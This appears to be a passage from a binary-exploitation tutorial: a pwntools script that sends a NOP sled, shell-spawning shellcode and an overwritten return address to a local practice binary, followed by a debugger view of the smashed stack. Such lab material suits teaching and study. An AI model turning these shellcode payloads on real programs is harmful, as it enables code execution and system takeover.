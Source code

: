 ```python
#!/usr/bin/python
from pwn import *
# Define the context of the working machine
context(arch='i386', os='linux')

def main():
    # Start the process
    log.info("Launching the process")
    p = process("../build/1_static")

    # Get a simple shellcode
    log.info("Putting together simple shellcode")
    shellcode = asm(shellcraft.sh())
    # print(len(shellcode))
    print(asm(shellcraft.sh()))

    # Craft the payload
    log.info("Crafting the payload")
    # payload = "A"*148
    payload = "\x90"*86    # no op code
    payload += shellcode   # 44 chars
    payload += "\x90"*18    # no op code
    payload += p32(0xdeadc0de)
    # payload += "\x90"*500    # no op code
    payload = payload.ljust(2000, "\x00")
    # log.info(payload)

    # Print the process id
    raw_input(str(p.proc.pid))

    # Send the payload
    p.send(payload)

    # Transfer interaction to the user
    p.interactive()

if __name__ == '__main__':
    main()
```

which gets us a situation like:
```bash
[ SOURCE (CODE) ]
    9     char * second_buffer;
   10     uint32_t length = 0;
   11     puts("Reading from STDIN");
   12     read(0, buffer, 1024);
   13
 ► 14     if (strcmp(buffer, "Cool Input") == 0) {
   15         puts("What a cool string.");
   16     }
   17     length = strlen(buffer);
   18     if (length == 42) {
   19         puts("LUE");
[ STACK ]
00:0000│ esp  0xff9abbe0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— xchg   dword ptr [eax], ebp /* 0xfbad2887 */
01:0004│      0xff9abbe4 —▸ 0x80bee20 ◂— push   esp
02:0008│ ecx  0xff9abbe8 ◂— 0x90909090
... ↓
[ BACKTRACE ]
 ► f 0  80488d5 vuln+57
   f 1 deadc0de
   f 2        0
```